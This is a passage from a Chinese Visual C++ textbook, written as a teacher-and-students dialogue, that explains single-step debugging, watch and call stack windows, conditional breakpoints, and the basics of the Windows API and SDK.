

图 1-52



图 1-53

### 1.5.3 单步调试和调试窗口

老师说道：“类似打印的方法，MFC 提供了一些打印判断信息的方式，比如 TRACE() 等。但一般意义上的调试，还是操作程序一步一步地运行，或者在感兴趣处中断，我们可以在这个过程中方便地查看各个变量取值的变化。”

老师说道：“微软的东西不一定是最好的，但一定是最好用的。在 VC 中调试也是如此。我们还是用刚才那个程序为例子来演示在 VC 中调试的方法吧。”

程序编译好后，按 F10，就会进入调试状态，如图 1-52。

继续按 F10，程序就会一句一句地执行，指针也会单步下移。为了方便看变量值的变化，我们可以点击下方的监视窗口，在出现的监视框中输入要看的变量值 iSum，就可以直接看到 iSum 的值为 -858993460，如图 1-53。

如果要看十六进制的值，我们在监视窗口上点击右键，选择十六进制显示；如图 1-54。就可以看到其值为 0xcccccccc，如图 1-55。

小菜们说道：“果然和打印方法看到的值一样啊！”

老师说道：“无论是直接执行还是单步调试，程序运行的机制是完全一样的。所以，有了调试，我们就可以自如地控制程序，如同控制了整个世界一般。”

小菜们口水都流出来了：“控制整个世界啊！！”

“是的，”老师说道，“我们按 F10 继续单步运行，当开始循环计算的时候，监视窗口中 iSum 的值会自动地变化，如图 1-56。”

“哦，真的很方便呀！”

“还有一些调试窗口，对我们的调试是大有帮助的，让我们一一看来。首先是寄存器窗口，在这里可以看到每个寄存器的值，如图 1-57。”

“还有内存窗口，可以看到变量在内存里实际的表示。比如，我们在内存窗口显示中输入 `argv`，即命令行参数的值，会看到保存的值，如图 1-58。”

“大家通过看内存可以知道，argv 至少有一个默认元素，就是 exe 程序本身的全路径。”

“哦，看到了！”

“最值得一提的是调用堆栈窗口，它在我们找异常错误的时候特别有用。”老师说道，“如果在调试时，程序崩溃了，会弹出一个经典的报错对话框，我们这个时候点击‘重试’，就会定位到出错的语句，此时通过查看调用堆栈窗口，就可以知道到达该出错语句的函数调用过程。比如，我们程序的调用堆栈窗口如图 1-59 所示。”

“可以看到，程序的执行流程是先执行 mainCRTStartup 函数，在该函数里调用了我们的 main 函数。”

“哦，mainCRTStartup 是什么呢？”

“mainCRTStartup 是 Windows 控制台程序的入口。”老师回答道，“我们知道了函数的调用流程，就可以很方便地找到出错原因了。”













### 1.5.4 断点和条件断点

小菜们初步感受了调试的过程后，发现了一个问题：“我们这里循环计算 100 次，如果想查看计算完成后的结果，一直点 F10 就得点多少次啊。”

“是啊，如果是 1000 次，10000 次……就真是 Mission Impossible 了啊。”

“对，一次次的单步执行速度太慢，我们通过设断点来加快调试的速度吧。”老师说道，“把光标放到要设断点的那行，再按 F9，就会出现一个红色的圈，表明设置断点成功，如图 1-60。设置了断点后，按 F5 运行，程序就会一直往下执行，直到遇到断点才停止，如图 1-61。”





图 1-60

“这个时候我们可以看到 iSum 的值为 5050，正确地完成执行了！”

“哦，太好了。”小菜们又为学到了新的东西而欢呼。

“不仅如此，我们还可以设置条件断点，比如我们想在加到 50 的时候中断下来，这个时候就需要设置条件断点了。在设置断点的地方右击，选择弹出菜单中的断点属性，如图 1-62。”

“就会弹出断点属性对话框，如图 1-63。我们点击条件，在弹出的断点条件中输入 `i==50`，表示在 i 增加到 50 的时候中断，如图 1-64。”

“设置好后，我们测试下效果，点 F5 开始调试，当被条件断点中断下来的时候，大家可以从监视窗口中看到，i 为 50，iSum 的值为 1225，如图 1-65。”

小菜们默算了一下，说道：“嗯，0 加到 50，的确为这个数。”

“是的，所以说，VC 是很强大的，我们要使它成为我们手中的利器！”

图 1-61





图 1-62

图 1-63



图 1-64



图 1-65

## 1.6 Windows API

“我们在 Windows 下编程，就不能不提到 Windows API。”

“API？听起来很耳熟呀，是什么呢？”小菜们问道。

“API 的英文全称是 Application Programming Interface，即应用程序编程接口。API 是一种广泛使用的专业术语，并没有专指某一种特定的 API 和 SDK，例如有语言库 API、Java API 等。而 Windows API 就是指 Windows 系统下的应用程序编程接口了。”

### 1.6.1 Windows API 简介

当 Windows 操作系统逐渐开始占据主导地位的时候，开发 Windows 平台下的应用程序成为人们的需要。如果用纯 C 或 C++ 开发 Windows 环境下的窗口程序，费时费力，效果也不好。Microsoft 公司在开发 Windows 系统时，也给出了 Windows 系统下编程的解决方案，这就是 Windows 平台 API 应用程序接口。它是 Windows 提供给程序员的一系列 API 函数。这些 API 函数同一般的 C 函数相似，具有输入输出参数，完成一定功能，执行后有返回值。有了这些 API 函数，程序员们就可以像“积木块”一样，要完成什么样的功能，就调用所对应的 API 函数，从而搭建出各种各样的应用程序。API 的上层是千姿百态的应用程序，而 API 的下层就是 Windows 的操作系统核心了。API 函数是构筑 Windows 系统编程的基石，一切在 Windows 下的操作，最终都会映射为 API 函数的调用！

“哦，Windows 下的所有功能都是通过调用 API 函数来完成的吗？”同学们歪着头问。

“是的！”老师肯定地回答道。

“那么我们写一个普通的 C 程序，也调用了 API 函数吗？”同学们问道。

老师笑道：“呵呵，任何应用层的程序涉及到系统时，最终都是使用 API 来完成功能的。那个 C 程序，同样最终调用 API 完成功能。不仅如此，就连我们直接在资源管理器里点右键，选新建文件，最终也是调用 API 来实现的。”

“哦！”大家听得很惊奇。

“这是因为一般情况下，微软没有源代码可以让我们改动，我们不能拥有‘自己’的函数来让 Windows 系统去执行。因此任何让 Windows 动作，都只能用 API 函数来实现。”老师顿了顿，继续说道：“正因为所有的功能都通过调用 API 函数来实现，所以我们才可以使用 API Hook 技术，即改变 API 函数的内容，在其中插入我们自己的代码。如果其它程序使用该 API，就会执行我们加入的功能。”

“有道理，但我们还是想知道，难道我们就不能跳过 Windows API，作任何更底层的开发吗？”

“还是可以的，比如使用 DDK，开发驱动程序！不过它都已经不是架构在应用程序层之上的了，反而是系统级别的了。”

“哦，明白了，说了这么多，API 编程到底是什么样子啊？好想看看啊！”大家感兴趣地说道。

“Windows API 随着系统的发展而发展，从过去的 WIN16 API 发展到现在普遍使用的 WIN32 API，以及 64 位系统拥有的 WIN64 API。”

> **小知识：什么是 SDK**
>
> SDK 的全称是 Software Development Kit，中文译为软件开发包。假如现在我们要开发呼叫中心，在购买语音卡的同时，厂商就会提供语音卡的 SDK 开发包，以方便我们对语音卡的编程操作。这个开发包通常都会包含语音卡的 API 函数库、帮助文档、使用手册、辅助工具等资源。也就是说，SDK 实际上就是开发所需资源的一个集合。而 Win32 SDK，就是指 Windows 32 位平台下的软件开发包，包括了 API 函数、帮助文档、微软提供的一些辅助开发工具。

### 1.6.2 Windows API 示例

“Windows 操作系统提供了 1000 多种 API 函数，作为开发人员，要全部记住这些函数调用的语法几乎是不可能的。这又回到我们的 MSDN 了，微软提供的 API 函数大多是有意义的单词的组合，每个单词的首字母大写，例如 CreateWindow，大家从函数的名字上就可以猜到，这个函数是用来为程序创建一个窗口的。其它的，例如 ShowWindow（用于显示窗口）、LoadIcon（用于加载图标）、SendMessage（用于发送消息）等，这些函数的准确拼写与调用语法都可以在 MSDN 中查找到。”

